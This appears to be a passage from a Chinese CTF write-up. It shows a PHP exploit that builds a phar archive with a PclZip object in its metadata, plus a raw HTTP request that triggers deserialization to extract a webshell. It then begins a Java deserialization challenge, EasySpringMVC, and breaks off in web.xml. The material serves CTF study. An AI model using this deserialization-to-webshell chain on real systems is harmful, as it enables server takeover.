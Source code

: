     	return;
	}

}

$a=new PclZip("/var/www/html/data/attachment/brand/1.zip");//压缩的文件路径
echo serialize($a);
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "troy3e");
$phar->stopBuffering();
 ?>

目的是后面反序列化时（moban.php里的那个del触发）触发PclZip类，解压webshell的压缩文件然后写入我们指定的目录，完美。
然后嘞，康康师傅的wp先~
哦 还有一个注意点就是625行那个函数，需要传一个token，抓包即可获得。
执行exp生成phar.phar然后修改后缀为可上传的任意后缀（txt
上传webshell的压缩文件和phar.txt（burp抓包改
上删文件触发反序列化
GET /admin.php?mod=moban&act=del&token=07aeb0cfb9db219504d34f4edfa2a135&tpl=phar:///var/www/html/data/attachment/brand/3.txt HTTP/1.1
Host: 9515c71a-972b-419f-847a-eb166c73ba9b.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://9515c71a-972b-419f-847a-eb166c73ba9b.node3.buuoj.cn/admin.php?mod=moban
Cookie: UM_distinctid=178395fbb40cc-02783c99f63357-4c3f227c-1fa400-178395fbb417c4; PHPSESSID=pgqota5okm9rgj7s3oammmvu14
Upgrade-Insecure-Requests: 1
这里3.txt路径是可以在上传界面获得的
参考：https://nikoeurus.github.io/2019/10/14/RoarCTF/#%E5%90%8E%E5%8F%B0getshell
https://blog.csdn.net/mochu7777777/article/details/107550135
https://guokeya.github.io/post/zE_m1kHQm/

还是得多分析源码才能进步。

## [V&N2020 公开赛]EasySpringMVC
关键词：Java反序列化
Java反序列化没怎么仔细研究过 这两次比赛吃了很大的亏 
总结一篇博客学习一下 见 Java反序列化学习.md
http://1cd4a2bb-5036-4365-be52-3f7b33bbb5b8.node3.buuoj.cn/springmvcdemo/showpic.form?file=showpic.jsp
上传图片点 需要webmanager组权限 file参数尝试任意文件读取显示only show you picture file !（失败
开始审源码，拖到jdgui里
首先看web.xml。（web.xml是J2EE定义的描述这个webapp的一个配置文件，非常重要。）  
    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <context-param>
            <param-name>contextConfigLocation</param-name>
            <param-value>/WEB-INF/applicationContext.xml</param-value>
        </context-param>
        <listener>
            <listener-class>org.springframework.web.context.ContextLoaderListener</listener-class>
        </listener>
        <filter>
            <filter-name>clientinfo</filter-name>
            <filter-class>com.filters.ClentInfoFilter</filter-class>